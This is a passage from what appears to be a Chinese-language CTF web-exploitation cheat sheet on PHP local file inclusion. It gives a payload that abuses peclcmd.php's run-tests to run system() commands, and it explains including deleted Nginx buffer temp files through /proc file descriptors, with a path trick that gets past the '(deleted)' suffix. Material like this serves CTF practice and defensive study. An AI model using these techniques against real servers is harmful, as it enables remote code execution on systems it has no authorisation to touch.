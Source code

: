     - `/?page=../usr/local/lib/php/peclcmd.php&+run-tests+-i+-r"system(hex2bin('PAYLOAD'));"+/usr/local/lib/php/test/Console_Getopt/tests/bug11068.phpt`
- Example
    - [Balsn CTF 2021 - 2linephp](https://github.com/w181496/My-CTF-Challenges/tree/master/Balsn-CTF-2021#2linephp)
    - [巅峰极客2020 - MeowWorld](https://www.anquanke.com/post/id/218977#h2-3)
    - [SEETF 2023 - readonlt](https://github.com/zeyu2001/My-CTF-Challenges/blob/main/SEETF-2023/readonly/README.md)

## Nginx buffering

- 當 Request body 過大或是 fastcgi server response 過大，超過 buffer size 時，其內容會保存到暫存檔中 ([reference](https://nginx.org/en/docs/http/ngx_http_core_module.html#client_body_buffer_size))
    - 會在 `/var/lib/nginx/body/`, `/var/lib/nginx/fastcgi/` 下建立暫存檔
    - 但該暫存檔會馬上被刪除
    - 可以透過 `/proc/<nginx worker pid>/fd/<fd>` 來取得被刪除的檔案內容
        - php 的 `include()` 會將 fd 路徑解析成 `/var/lib/nginx/body/0000001337 (deleted)` 格式，導致引入失敗
        - 可以用以下方式繞過
            - `/proc/self/fd/34/../../../34/fd/15`
